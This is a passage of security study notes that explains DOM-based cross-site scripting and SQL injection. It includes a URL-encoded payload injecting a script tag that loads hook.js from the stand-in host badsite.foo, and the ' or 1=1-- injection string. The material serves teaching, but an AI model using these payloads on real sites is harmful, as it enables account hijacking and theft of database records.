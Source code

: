 Users viewing the post will have the malicious script hook.js execute in their browser.

A third type of [[XSS]] attack exploits vulnerabilities in client-side scripts. Such scripts often use the Document Object Model ([[DOM]]) to modify the content and layout of a web page. For example, the "document.write" method enables a page to take some user input and modify the page accordingly. An exploit against a client-side script could work as follows:

1.  The attacker identifies an input validation vulnerability in the trusted site. For example, a message board might take the user's name from an input text box and show it in a header.
    
    https://trusted.foo/messages?user=james
    
2.  The attacker crafts a URL to modify the parameters of a script that the server will return, such as:
    
    https://trusted.foo/messages?user=James%3Cscript%20src%3D%22https%3A%2F%2Fbadsite.foo%2Fhook.js%22%3E%3C%2Fscript%3E
    
3.  The server returns a page with the legitimate DOM script embedded, but containing the parameter:
    
    James<script src="https://badsite.foo/hook.js"></script>
    
4.  The browser renders the page using the DOM script, adding the text "James" to the header, but also executing the hook.js script at the same time.
# STRUCTURED QUERY LANGUAGE INJECTION ATTACKS

Attacks such as session [[replay]], [[CSRF]], and [[DOM]]-based [[XSS]] are [[client-side attacks]]. This means that they execute arbitrary code on the browser. A [[server-side attack]] causes the server to do some processing or run a script or query in a way that is not authorized by the application design. Most server-side attacks depend on some kind of injection attack.

**Where an overflow attack works against the way a process performs memory management**, an **injection attack exploits some unsecure way in which the application processes requests and queries**. For example, an application might allow a user to view his or her profile with a database query that should return the single record for that one user's profile. An application vulnerable to an injection attack might allow a [[threat actor]] to return the records for all users, or to change fields in the record when they are only supposed to be able to read them.

A web application is likely to use Structured Query Language ([[SQL]]) to read and write information from a database. The main database operations are performed by SQL statements for selecting data (SELECT), inserting data (INSERT), deleting data (DELETE), and updating data (UPDATE). In a SQL injection attack, the [[threat actor]] modifies one or more of these four basic functions by adding code to some input accepted by the app, causing it to execute the attacker's own set of SQL queries or parameters. If successful, this could allow the attacker to extract or insert information into the database or execute arbitrary code on the remote system using the same privileges as the database application ([owasp.org/www-community/attacks/SQL_Injection](https://owasp.org/www-community/attacks/SQL_Injection)).

For example, consider a web form that is supposed to take a name as input. If the user enters "Bob", the application runs the following query:

SELECT * FROM tbl_user WHERE username = 'Bob'

If a [[threat actor]] enters the string **' or 1=1--** and this input is not sanitized, the following malicious query will be executed:
